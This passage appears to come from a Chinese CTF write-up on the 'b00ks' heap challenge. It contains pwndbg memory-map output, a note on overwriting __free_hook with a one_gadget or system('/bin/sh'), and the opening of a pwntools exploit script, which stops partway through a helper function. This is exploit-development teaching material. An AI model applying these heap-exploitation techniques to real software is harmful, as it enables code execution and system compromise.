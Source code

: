```shell
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x555555554000     0x555555556000 r-xp     2000 0      /home/skye/Desktop/CTF学习/chunk/asis-ctf-2016-b00ks/b00ks
    0x555555755000     0x555555756000 r--p     1000 1000   /home/skye/Desktop/CTF学习/chunk/asis-ctf-2016-b00ks/b00ks
    0x555555756000     0x555555757000 rw-p     1000 2000   /home/skye/Desktop/CTF学习/chunk/asis-ctf-2016-b00ks/b00ks
    0x555555757000     0x555555778000 rw-p    21000 0      [heap]
    0x7ffff79e4000     0x7ffff7bcb000 r-xp   1e7000 0      /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7bcb000     0x7ffff7dcb000 ---p   200000 1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dcb000     0x7ffff7dcf000 r--p     4000 1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dcf000     0x7ffff7dd1000 rw-p     2000 1eb000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dd1000     0x7ffff7dd5000 rw-p     4000 0      
    0x7ffff7dd5000     0x7ffff7dfc000 r-xp    27000 0      /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7f9a000     0x7ffff7fe0000 rw-p    46000 0      
    0x7ffff7ff7000     0x7ffff7ffa000 r--p     3000 0      [vvar]
    0x7ffff7ffa000     0x7ffff7ffc000 r-xp     2000 0      [vdso]
    0x7ffff7ffc000     0x7ffff7ffd000 r--p     1000 27000  /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7ffd000     0x7ffff7ffe000 rw-p     1000 28000  /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7ffe000     0x7ffff7fff000 rw-p     1000 0      
    0x7ffffffde000     0x7ffffffff000 rw-p    21000 0      [stack]
0xffffffffff600000 0xffffffffff601000 r-xp     1000 0      [vsyscall]
```

#### 写入 __free_hook

可以写入 onegadget 也可以是 system ，如果是 system ，需要 free 的 book_name 是 /bin/sh 来传入参数。

#### exploit

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Author  : MrSkYe、CTF-WIKI
# @Email   : skye231@foxmail.com
# @File    : b00ks.py
from pwn import *
context.log_level="debug"

p=process("./b00ks")
elf=ELF("b00ks")
libc=ELF("./libc.so.6")


def createbook(name_size,name,des_size,des):
	p.readuntil("> ")
	p.sendline("1")
	p.readuntil(": ")
	p.sendline(str(name_size))
	p.readuntil(": ")
	p.sendline(name)
	p.readuntil(": ")
	p.sendline(str(des_size))
	p.readuntil(": ")
	p.sendline(des)

def printbook(id):
	p.readuntil("> ")
	p.sendline("4")
	p.readuntil(": ")
	for i in range(id):
		book_id=int(p.readline()[:-1])
		p.readuntil(": ")
```